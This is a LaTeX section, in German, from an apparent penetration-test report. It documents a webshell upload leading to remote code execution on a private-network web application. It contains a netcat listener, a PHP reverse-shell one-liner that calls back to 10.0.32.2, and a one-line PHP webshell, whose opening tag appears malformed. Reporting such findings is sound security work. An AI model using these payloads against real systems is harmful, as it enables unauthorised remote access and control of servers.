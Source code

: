 \section{\makecvssbadge Webshell Upload und Remote Code Execution (RCE)}

\subsection*{Proof of Concept}
Dieser Benutzer "Odo" hat Entwicklerrechte für die Webanwendung und kann Konfigurationen an der Webanwendung vornehmen. Unter der Adresse \url{http://10.0.68.101:80/} können die Felder zum Erstellen eines Blogeintrags geändert werden. Es kann ein Datei-Upload-Feld hinzugefügt werden, das das Hochladen von PHP-Dateien ermöglicht. PHP-Dateien müssen explizit als gültiges Datenformat in die Validierungsregeln aufgenommen werden. Dadurch kann ein Blogeintrag erstellt werden, an den eine PHP-Webshell angehängt wird (Siehe \autoref{listing:php-webshell}). Der Angreifer kann mit dem Befehl in \autoref{listing:netcat-listener} einen Netcat-Listener starten und anschließend in der Web-Shell mit dem Befehl in \autoref{listing:pedikuere:revers_shell} eine Reverse-Shell starten. 

\begin{listing}[!ht]
\begin{verbatim}
nc -lvp 9001
\end{verbatim}
\caption{Netcat-Listener für eine Revers Shell auf Port 9001}
\label{listing:netcat-listener}
\end{listing}

\begin{listing}[!ht]
\begin{verbatim}
php -r '\$sock=fsockopen("10.0.32.2",9001);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{verbatim}
\caption{Reverse Shell initiieren über die hochgeladene Webshell}
\label{listing:pedikuere:revers_shell}
\end{listing}


\begin{listing}[!ht]
\begin{verbatim}
<php system($_REQUEST['cmd']); ?>
\end{verbatim}
\caption{PHP Webshell}
\label{listing:php-webshell}
\end{listing}

